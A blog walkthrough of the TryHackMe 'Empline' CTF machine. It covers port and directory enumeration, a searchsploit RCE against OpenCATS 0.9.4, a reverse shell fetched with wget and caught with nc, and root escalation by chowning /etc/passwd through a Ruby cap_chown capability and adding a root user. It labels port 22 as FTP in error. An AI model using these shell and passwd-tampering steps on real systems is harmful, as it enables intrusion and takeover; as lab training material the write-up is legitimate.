 ```yaml
---
title: THM Empline
date: 2023-06-15 15:01:00 -0800
categories: [Walkthrough, TryHackMe]
tags: [THM, TryHackMe, CTF]
published: true
---
```


## Empline

This walkthrough assumes you have a basic understanding of the Linux OS and Kali Linux tools, and burp suite, foxyproxy (or another browser proxy) especially. This is a THM medium rated free machine so anyone with a THM account should be able to access it.

First things first we boot up the machine and connect to the THM VPN on our Kali Linux machine. You can do this by visiting [Tryhackme.com](http://tryhackme.com), setting up an account, and then following their [OpenVPN room](https://tryhackme.com/room/openvpn) if unfamiliar with how to connect to a VPN.

There are two flags we need to find for this machine, User.txt and Root.txt, so lets get started!

## Enumeration

I like to start by running nmap scans to discover services like webserver ports or other maybe possible services we can connect to. I do have a shell script I created that does these scans automatically for me but in this case we will be doing everything manually.

We will start with an inital nmap scan to discover all open ports.

- `sudo nmap -p- -vvvv <TARGET.IP>`

With this scan you should discover a few open ports: 

- 22 (FTP)
- 80 (HTTP)
- 3306 (mysql)

We can then perform service and script scans with nmap in order to see service versions and then check for vulnerable versions of software on these open ports.

- `sudo nmap -p22,80,3306 -sC -sV -O -vvvv <TARGET.IP>`

In this command `-p` is where we select which ports we want to perform our scans on. `-sC` performs a script scan, this scan will perform tasks like detecting service vulnerabilities, malware discoverym and information from databases, and other network services, as well as version detection. `-sV` will probe the ports and get us the versions of the service running on the port. `-O` will try to detect the OS version. `-vvvv` will provide us with a very verbose output that lets us see the progress of the nmap scan in realtime. We can also use output flags to save our results to a file if we would like with `-oN` (normal), `-oX` (XML), `-oG` (Grepable).

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0d541eea4d0830c970d75cc7b107f76 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDR9CEnxhm89ZCC+SGhOpO28srSTnL5lQtnqd4NaT7hTT6N1NrRZQ5DoB6cBI+YlaqYe3I4Ud3y7RF3ESms8L21hbpQus2UYxbWOl+/s3muDpZww1nvI5k9oJguQaLG1EroU8tee7yhPID0+285jbk5AZY72pc7NLOMLvFDijArOhj9kIcsPLVTaxzQ6Di+xwXYdiKO0F3Y7GgMMSszIeigvZEDhNnNW0Z1puMYbtTgmvJH6LpzMSEC+32iNRGlvbjebE9Ehh+tGiOuHKXT1uexrt7gbkjp3lJteV5034a7G1t/Vi3JJoj9tMV/CrvgeDDncbT5NNaSA6/ynLLENqSP
|   256 8382f969197d0d5c5365d554f645db74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFhf+BTt0YGudpgOROEuqs4YuIhT1ve23uvZkHhN9lYSpK9WcHI2K5IXIi+XgPeSk/VIQLsRUA0kOqbsuoxN+u0=
|   256 4f913e8b696909700e8226285c8471c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDkr5yXgnawt7un+3Tf0TJ+sZTrbVIY0TDbitiu2eHpf
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Empline
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
3306/tcp open  mysql   syn-ack ttl 61 MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 86
|   Capabilities flags: 63487
|   Some Capabilities: SupportsTransactions, Support41Auth, Speaks41ProtocolNew, FoundRows, ConnectWithDatabase, LongPassword, DontAllowDatabaseTableColumn, ODBCClient, SupportsCompression, IgnoreSigpipes, LongColumnFlag, Speaks41ProtocolOld, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: &$##"$-TA)FdGs//=$=E
|_  Auth Plugin Name: mysql_native_password
```

With our scans done at this point I can only see one thing out of the ordinary which is the 3306 mysql has a salt visiable this might be something for later. Lets check out the website. In order to do this I am going to add Empline.thm to my `/etc/hosts` file and then add the URL to burpsuite's target scope.

With our burpsuite proxy setup it is time to scan for directories and files. For this I am going to use feroxbuster with this command:

- `feroxbuster -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --burp -u http://empline.thm/ -x txt,php,html`

This command is using the `-w` wordlist directory list medium as well as sending the requests through our burpsuite proxy with `--burp`, the `-u` flag is the url for the scan and `-x` is the extensions we will also try to pick up with the scan.

Also visiting the site, now at `http://empline.thm` and browsing around we see there is a link to `http://job.empline.thm/careers`. If we add `job.empline.thm` to our `/etc/hosts` file we should be able to view this. Just for good practice we can also scan for other subdomains. For this I generally like to use wfuzz for ease of use.

- `wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://empline.thm -H "Host: FUZZ.empline.thm" --hw 914`

Flags here are `-c` for the color option - `-w` is for the wordlist, for general CTF's i've found bitquark's subsomains top 1000000 generally works here.  `-u` is for the URL. `-H` is for the headers to send with the requests which for this example we will FUZZ the subdomains, FUZZ will be where wfuzz will replace with the wordlists. After an intial run we can then use `--hw` for hide word results of 914 which will filter out the responses we are not looking for. Running this command should then yeild the `job` subdomain as a result. And after adding this subdomain to our `/etc/hosts` file and adding to the burp scope we can travel there and enumerate further.

Running another feroxbuster scan through burpsuite to gather the results:

- `feroxbuster -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --burp -u http://job.empline.thm/ -d 0 -x txt`

Now, with the information from feroxbuster captured in burpstuite we can see a few different interesting things. Such as some databases, and their information. I am assuming this is a misdirection however because too easy, checking `cats_testdata.bak` we find some user value information.

However this doesn't get anywhere. Checking the page source code we can find the version of the OpenCATS is 0.9.4 and using `searchsploit` on the kali linux machine we find a RCE to try.

- `searchsploit opencats`
- `searchsploit -m 50585`

Using `-m` will copy the given exploit, in this case `50585`, to our directory, which then we can `chmod +x` to an executable then run it as follows.

![](/assets/empline01.png)

This shell doesn't seem to be very stable however, so lets upgrade to a pentestmonkey shell. 

In the epxloit shell use `wget` to get the pentestmonkey shell over to the target, then run `curl -X GET http://job.empline.thm/upload/careerportaladd/pentestmonkey.php` to execute the shell with a `nc -nvlp <port>` listener ready. With the stabler pentestmoney shell open we can also upgrade to a tty shell with `python3 -c 'import pty;pty.spawn("/bin/bash")`.

## User.txt

Time now for machine enumeration first the user flag.

I am going to get `linpeas` over to the target using the same process as pentestmoney from before by using the `linpeas` command to open the linpeas folder and spawning a simple http server with `python3 -m http.server 80`. Transfer over the `.sh` and run it.

Running linpeas we find ruby had `/usr/local/bin/ruby = cap_chown+ep`

CAP_CHOWN	Allow user to make arbitrary change to files UIDs and GIDs (full filesystem access)

We can use this to modify abd add a line to the `/etc/passwd` file.

`/usr/local/bin/ruby -e "require 'fileutils' " -e "FileUtils.chown('www-data', 'www-data', '/etc/passwd')"`

Next we can generate a password with openSSL `openssl passwd password123`

and insert it into the passwd file: `0xskar2:\$1\$t2JA4qNZ\$DeN33Mz6k3FdbeZlAWktm/:0:0:root:/root:/bin/bash`

Then we can `su` and get full control to the system and pick up our flags.

